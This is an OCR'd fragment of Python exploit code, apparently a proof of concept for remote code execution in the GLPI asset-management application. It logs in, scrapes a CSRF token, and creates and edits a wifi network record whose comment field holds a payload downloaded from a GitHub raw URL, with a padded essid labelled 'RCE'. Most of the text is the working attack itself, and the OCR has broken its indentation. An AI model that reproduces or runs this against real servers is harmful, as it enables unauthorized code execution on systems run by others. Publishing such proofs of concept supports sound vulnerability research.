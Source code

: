                 data = {
                    "entities_id": "0",
                    "is_recursive": "0",
                    "name": "PoC",
                    "comment": comment,
                    "essid": "RCE"+padding,
                    "mode": "ad-hoc",
                "purge": "Delete permanently",
                "id": networkid,
                        "_glpi_csrf_token": csrf_token,
                        '_read_date_mod': datemod
                    }

                    r = self.session.post('{}/front/wifinetwork.form.php'.format(self.url), data=data)

        def create_network(self, datemod):
            r = self.session.get('https://raw.githubusercontent.com/AlmondOffSec/PoCs/master/glpi_rce_gzip/poc.txt')
            comment = r.content

            r = self.session.get('{0}/front/wifinetwork.php'.format(self.url))
            try:
                csrf_token = self.extract_csrf(r.text)
            except Exception as e:
                print "[-] Create network error: could not retrieve form data"
                sys.exit(1)

            data = {
            "entities_id": "0",
            "is_recursive": "0",
            "name": "PoC",
            "comment": comment,
            "essid": "RCE",
            "mode": "ad-hoc",
            "add": "ADD",
                "_glpi_csrf_token": csrf_token,
                '_read_date_mod': datemod
            }

            r = self.session.post('{}/front/wifinetwork.form.php'.format(self.url), data=data)
            print "[+] Network created"
            print "      Name: PoC"
            print "      ESSID: RCE"

        def edit_network(self, padding, datemod):
            r = self.session.get('https://raw.githubusercontent.com/AlmondOffSec/PoCs/master/glpi_rce_gzip/poc.txt')
            comment = r.content
            #create the padding for the name and essid


            r = self.session.get('{0}/front/wifinetwork.php'.format(self.url))
            webpage = html.fromstring(r.content)
            links = webpage.xpath('//a/@href')
            for rawlink in links:
                if "wifinetwork.form.php?id=" in rawlink:
                    rawlinkparts = rawlink.split('/')
                    link = rawlinkparts[-1]

